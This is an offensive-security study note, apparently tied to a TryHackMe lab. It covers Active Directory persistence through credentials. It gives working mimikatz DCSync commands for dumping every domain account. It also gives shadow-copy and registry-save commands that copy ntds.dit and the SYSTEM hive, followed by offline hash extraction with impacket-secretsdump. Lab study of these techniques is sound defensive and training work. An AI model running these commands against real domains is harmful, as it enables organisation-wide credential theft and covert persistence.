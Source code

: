 # AD Persistence With Credentials

This technique is the least reliable. Credential are:
- Domain restricted, but
	- Unless Account has `domain replication permissions`, which is required for [[AD-DCSync-Attack]]s
- Credential are rotated(changed) and can be by Blue Team, but
	- Near-privileged credentials for persistence is tactic of just enough to re-takeover, we need:
		- Credentials with Local Administrator Rights on as many machines as possible
		- Service Accounts that have delegation permissions for [[AD-Kerberos-Delegation-Exploitation]]
		- Accounts used for privileged AD services: WSUS, SCCM, etc   

## DCSync All

[[Mimikatz-Cheatsheet]]
```powershell
# mimikatz
lsadump::dcsync /domain:$domain /user:$user
# If want to dcsync every account mimikatz has builtin logging 
log dcdump.txt
```

Each domain controller runs a process called the Knowledge Consistency Checker (KCC). The KCC generates a replication topology for the AD forest and automatically connects to other domain controllers through Remote Procedure Calls (RPC) to synchronise information.

#### Shadow Copies

Volume Shadow Service (VSS) is a Microsoft backup technology that allows creation of snapshots of files or entire volumes use it copy `ntds.dit`, `hlkm\SYSTEM`, `hlkm\SAM` and `hlkm\SECURITY`. Exfiltration([[Data-Exfiltration-Defined]]) via some method is required.
```powershell
# Snapshot 
vshadow.exe -nw -p  C:
# And copy 
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
reg.exe save hklm\system c:\system.bak
# Exfiltrate back to Kali
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)